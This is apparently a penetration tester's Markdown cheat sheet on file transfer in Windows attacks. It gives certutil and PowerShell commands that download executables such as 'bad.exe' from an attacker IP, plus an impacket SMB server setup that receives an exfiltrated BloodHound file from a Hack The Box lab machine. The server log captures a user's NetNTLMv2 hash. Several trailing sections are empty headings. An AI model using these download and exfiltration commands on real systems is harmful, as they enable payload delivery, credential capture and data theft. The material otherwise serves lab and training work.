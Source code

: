 # File Transfer

### [Downloading Files with Certutil](https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil)
```
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
certutil -urlcache -f http://10.0.0.5/40564.exe bad.exe

$ip = '10.10.14.5'
certutil -urlcache -f http://$ip/40564.exe bad.exe
```
(New-Object Net.WebClient).DownloadFile('http://$ip/taskkill.exe','C:\Windows\Temp\taskkill.exe')

### [SMB](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
### On Server Side (Kali)
```
$ impacket-smbserver share .
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

### On Client Side
```
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>copy acls.csv \\10.10.14.9\share                                    
        1 file(s) copied.
```

### On Server Side (Kali), received the file
```
[*] Incoming connection (10.10.10.77,52853)
[*] AUTHENTICATE_MESSAGE (HTB\tom,REEL)
[*] User REEL\tom authenticated successfully
[*] tom::HTB:aaaaaaaaaaaaaaaa:ce35716473cdd23a96f36ceb04c047b7:01010000000000008001dda490e0d90110624f8984ad10560000000001001000410070004900720061006c006700690003001000410070004900720061006c00670069000200100044005400690049006800610071006f000400100044005400690049006800610071006f00070008008001dda490e0d90106000400020000000800300030000000000000000000000000300000af600118190f818eb191529b8de7b91c47aaab8e73855d44e95d1b6e27fd549f0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003900000000000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)
[*] Closing down connection (10.10.10.77,52853)
[*] Remaining connections []

Ctrl + C

$ ls -lh acls.csv                         
-rwxr-xr-x 1 kali kali 110K Jan  1  1970 acls.csv
```

### 
```

```

### 
```

```

### 
```

```